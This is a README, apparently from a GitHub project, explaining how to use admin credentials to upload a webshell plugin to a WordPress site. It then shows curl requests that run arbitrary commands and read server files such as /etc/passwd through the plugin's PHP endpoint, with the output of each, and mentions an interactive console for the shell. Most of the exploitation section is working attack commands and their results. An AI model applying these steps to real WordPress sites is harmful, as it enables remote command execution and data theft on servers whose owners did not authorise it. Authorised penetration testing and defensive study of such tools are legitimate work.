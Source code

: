 # Wordpress - Upload a plugin

## Requirements

 - A valid **username and password** of a user with **admin rights** on the Wordpress.

## Exploitation

### Accessing the dashboard

Connect with a user with administrative rights on the Wordpress at [http://TARGET/wp-login.php](http://TARGET/wp-login.php).

![](./imgs/dashboard.png)


### Step 1: Upload the webshell plugin

First, login with admin rights on the WordPress website and go to "_Plugins --> Add New_" page, at http://TARGET/wordpress/wp-admin/plugin-install.php, and click on "Upload Plugin":

![](./imgs/plugin_add_new.png)

Upload the plugin, and click on "_Activate the plugin_":

![](./imgs/activate_plugin.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://TARGET/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://TARGET/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./imgs/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://TARGET/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://TARGET/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :

![](./imgs/download_file_web.png)

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/169876672-7ecd50a4-21f8-47d3-a575-ff2b81b5ec22.mp4

## References
 - https://wordpress.org/plugins/wpterm/
 - https://github.com/p0dalirius/Wordpress-webshell-plugin